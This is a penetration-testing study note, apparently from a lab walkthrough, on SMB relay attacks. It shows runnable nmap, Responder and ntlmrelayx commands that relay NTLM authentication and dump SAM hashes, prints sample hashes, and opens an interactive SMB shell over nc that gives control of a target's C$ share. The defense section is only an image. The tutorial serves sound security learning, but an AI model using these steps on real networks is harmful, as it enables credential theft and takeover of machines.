 ### SMB Relay
![[Pasted image 20210723085321.png]]

With SMB Relay attacks, the attacker inserts himself into the middle of that exchange. The attacker selects the target server he wants to authenticate to and then the attacker waits for someone on the network to authenticate to his machine. This is where rogue host detection, vulnerability scanners, and administrator scripts that automatically authenticate to hosts become a penetration tester's best friends. When the automated process connects to the attacker, he passes the authentication attempt off to his target (another system on the network, perhaps a server). The target generates a challenge and sends it back to the attacker. The attacker sends the challenge back to the originating scanning system. The scanning system encrypts the hash with the correct password hash and sends it to the attacker. The attacker passes the correctly encrypted response back to his target and successfully authenticates

### Discovering hosts with smb signing disabled
We can use nmap to do so. Type the command for discovering hosts with smb signing disabled
```bash
nmap --script smb2-security-mode -p445 <network range>
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 23:42 EDT
Nmap scan report for 192.168.247.1
Host is up (0.00064s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:50:56:C0:00:08 (VMware)

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required

Nmap scan report for 192.168.247.2
Host is up (0.00026s latency).

PORT    STATE  SERVICE
445/tcp closed microsoft-ds
MAC Address: 00:50:56:E2:B7:07 (VMware)

Nmap scan report for 192.168.247.130
Host is up (0.00029s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:FF:32:DA (VMware)

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required

Nmap scan report for 192.168.247.131
Host is up (0.00032s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:41:13:77 (VMware)

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required

Nmap scan report for 192.168.247.254
Host is up (0.00020s latency).

PORT    STATE    SERVICE
445/tcp filtered microsoft-ds
MAC Address: 00:50:56:F8:21:3F (VMware)

Nmap scan report for 192.168.247.142
Host is up (0.00020s latency).

PORT    STATE  SERVICE
445/tcp closed microsoft-ds

Nmap done: 256 IP addresses (6 hosts up) scanned in 3.72 seconds
```

Based on the result we will put one of the IP which have smb signing disabled to target.txt

### Attacking with SMB Relay
First go to `/etc/responder/Responser.conf` and turn Off SMB and HTTP
![[Pasted image 20210723091309.png]]

Now run Responder
```bash
responder -I eth0 -rdwv
```

Now use ntlmrelayx for relaying the hash. Type the following command
```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

| Commands | Use |  
| ----------- | ----------- |  
| -tf | target file  |  
| -smb2support | Use smb |


Now try to connect to kali from the windows machine which is not in the target file

![[Pasted image 20210723094010.png]]

Now you can see that the SAM file is dumped and we have local users hash 

![[Pasted image 20210723093808.png]]
```powershell
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:451fb5d461675068c88ed9bc198db63e:::
Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:a4f49c406510bdcab6824ee7c30fd852:::
```

Now for getting shell with smb we can use the following command
```bash
ntlmrelayx.py -tf targets.txt -smbsupport -i
```

| Commands | Use |  
| ----------- | ----------- |  
| -i | interactive shell  | 

Now from the output you can see that it has created an interactive shell in the localhost

![[Pasted image 20210723095910.png]]

To connect to the shell type
```bash
nc 127.0.0.1 11000
```

After connecting we can list the shares and now we are in C$ share and have full control of the machine

![[Pasted image 20210723100531.png]]

### Defense against SMB Relay Attacks

![[Pasted image 20210723100909.png]]
